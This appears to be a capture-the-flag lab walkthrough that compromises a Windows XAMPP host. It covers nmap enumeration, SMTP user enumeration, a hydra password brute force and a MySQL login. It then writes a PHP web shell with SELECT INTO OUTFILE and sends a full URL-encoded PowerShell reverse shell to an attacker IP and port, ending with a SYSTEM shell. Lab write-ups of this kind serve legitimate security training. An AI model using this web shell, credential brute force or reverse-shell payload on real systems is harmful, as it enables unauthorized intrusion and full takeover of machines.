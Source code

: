----

First we run nmap to enumerate the services.

```bash
sudo nmap -sC -sV 10.129.163.202
```

```
PORT     STATE SERVICE       VERSION                                              
21/tcp   open  ftp                              
| fingerprint-strings:                                                
|   GenericLines:                                            
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...            
|   Help:            
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP                                                  
|     NOOP TYPE MODE STRU                                                          
|     LIST NLST HELP FEAT UTF8 PASV                                                
|     MDTM REST PBSZ PROT OPTS CCC                                                 
|     XCRC SIZE MFMT CLNT ABORT                                                    
|     HELP command successful                                                      |   NULL:                                                                          
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered              
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY   
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.163.202/dashboard/                   
443/tcp  open  ssl/https
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
587/tcp  open  smtp          hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP                  
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY     
3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB          
| mysql-info:                                                     
|   Protocol: 10                                                  
|   Version: 5.5.5-10.4.24-MariaDB                                
|   Thread ID: 11                                                 
|   Capabilities flags: 63486                                     
|   Some Capabilities: SupportsLoadDataLocal, InteractiveClient, IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, FoundRows, SupportsTransactions, IgnoreSigpipes, ConnectWithDatabase, ODBCClient, LongColumnFlag, Speaks41ProtocolNew, SupportsCompression, DontAllowDatabaseTableColumn, SupportsMultip
leResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit                                                  
|   Salt: r<tS$XoFO;u_\0v%QI\q
|_  Auth Plugin Name: mysql_native_password         
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-01-12T13:45:54+00:00; +29s from scanner time.
| ssl-cert: Subject: commonName=WIN-EASY            
| Not valid before: 2025-01-11T13:43:59             
|_Not valid after:  2025-07-13T13:43:59             
| rdp-ntlm-info:       
|   Target_Name: WIN-EASY                                          
|   NetBIOS_Domain_Name: WIN-EASY                                  
|   NetBIOS_Computer_Name: WIN-EASY                                
|   DNS_Domain_Name: WIN-EASY                                                 
|   DNS_Computer_Name: WIN-EASY                                               
|   Product_Version: 10.0.17763                                               
|_  System_Time: 2025-01-12T13:45:46+00:00     
```

We first try to enumerate users / passwords

Since smtp is running we can use smtp-user-enum to enumerate users.

```bash
smtp-user-enum -M RCPT -D inlanefreight.htb -U users -t 10.129.163.202
```
It told us the user `fiona@inlanefreight.htb` is present.

We then tried to brute force the password for the smtp service.

```bash
hydra -l fiona@inlanefreight.htb -P /usr/share/wordlist/rockyou.txt 10.129.163.202 smtp
```

This resulted in the password `fiona:987654321`. I tried to login against FTP and SMTP with these credentials but it did not work. 
Next I tried to login to mysql.

```bash
mysql -u fiona -p987654321 -h 10.129.221.196
```

When showing the databases I saw there was a phpmyadmin database. 
I also know that `xampp` is running as a webserver so I tried to create a php-file that can execute code. This can be done inside mysql.

I had to lookup the default xampp location and figured out it was inside the htdocs directory.
```bash
use phpmyadmin;
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/shell.php';
```

Now I can send GET requests in with a command. I used burp-suite for this

```
GET /shell.php?=whoami HTTP/1.1
nt authority\system
```

Now I know this works, I try to get a reverse shell.

I setup a netcat listener on my attack host and use the following GET request

```
GET /shell.php?cmd=powershell+-NoP+-NonI+-W+Hidden+-Command+"%26+{+$client+%3d+New-Object+System.Net.Sockets.TCPClient('10.10.14.197',9001)%3b+$stream+%3d+$client.GetStream()%3b+[byte[]]$bytes+%3d+0..65535|%25{0}%3b+while(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){+$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,$i)%3b+$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b+$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b+$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b+$stream.Write($sendbyte,0,$sendbyte.Length)%3b+$stream.Flush()+}%3b+$client.Close()+}" 
```

This is a PowerShell reverse shell and after sending it I got an nt authority\system shell on my netcat listener.

